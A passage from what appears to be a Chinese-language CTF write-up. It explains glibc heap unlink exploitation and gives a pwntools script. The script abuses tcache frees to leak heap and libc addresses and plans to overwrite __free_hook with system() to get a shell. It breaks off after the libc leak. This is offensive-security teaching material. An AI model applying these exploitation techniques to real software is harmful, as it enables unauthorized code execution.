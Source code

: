 當 `free()` 完當前的 chunk 後，會繼續檢查上個 / 下個 chunk 是否 inuse，如果沒有的話就會 trigger `unlink()`。`unlink()` 會先檢查前後 chunk 是否與中間的 chunk 互指 (`FD->bk == P && BK->fd == P`)，而後會 `FD->bk = BK`，等價於 `p->fd->bk = p->bk`，以及 `BK->fd = FD`，等價於 `p->bk->fd = p->fd`，更新前後的 fd or bk，讓中間的 memory chunk 被釋放。

由於 `mmapped` 指向 `mmap_region`，如果 `mmap_region->fd` == `mmapped - 0x18`、`mmap_region->bk` == `mmapped - 0x10`，這樣就能符合 `FD->bk == P (*bk+0x18 == P) && BK->fd == P (*bk+0x10 == P)`。不過由於 `FD->bk == BK->fd == *(mmapped) == mmap_region`，所以最後 `mmapped` 的結果會由 `BK->fd = FD;` 來決定，也就是 `mmaped - 0x18` (`mmapped = mmapped - 0x18`)。

之後就可以透過修改 `mmapped` 寫到任意位置，這邊選 `__free_hook` 為 `system()`，之後就直接 `free("/bin/sh")`，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

"""
[1] : write to heap
[2] : alloc on heap # not implement
[3] : free from heap
[4] : leak
[5] : exit
"""

def wr(off, payload):
    r.sendlineafter("[5] : exit\n", "1")
    r.sendlineafter("How much do you want to write?\n", str(len(payload)))
    r.sendlineafter("At which offset?\n", str(off))
    sleep(0.1)
    r.send(payload)

def fr(off):
    r.sendlineafter("[5] : exit\n", "3")
    r.sendlineafter("At which offset do you want to free?\n", str(off))

def leak(off):
    r.sendlineafter("[5] : exit\n", "4")
    r.sendlineafter("At which offset do you want to leak?\n", str(off))

fake_chunk = p64(0) + p64(0x91) + b'\x00'*0x80
fake_chunk += p64(0) + p64(0x21) + b'\x00'*0x10
fake_chunk += p64(0) + p64(0x21)

r = process("./H", env={"LD_PRELOAD": "./libc-2.28.so"})
wr(0, p64(0) + p64(0xa1))

for _ in range(2):
    fr(0x10)

leak(0x10)
mmap = u64(r.recvline()[:-1].ljust(8, b'\x00')) - 0x10
info(f"mmap: {hex(mmap)}")
for _ in range(5): # fill 0xa0 tcache
    fr(0x10)

wr(0x20, fake_chunk)
for _ in range(8):
    fr(0x30)

### leak libc
wr(0, p64(mmap + 0x30))
leak(0)
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1e4ca0
```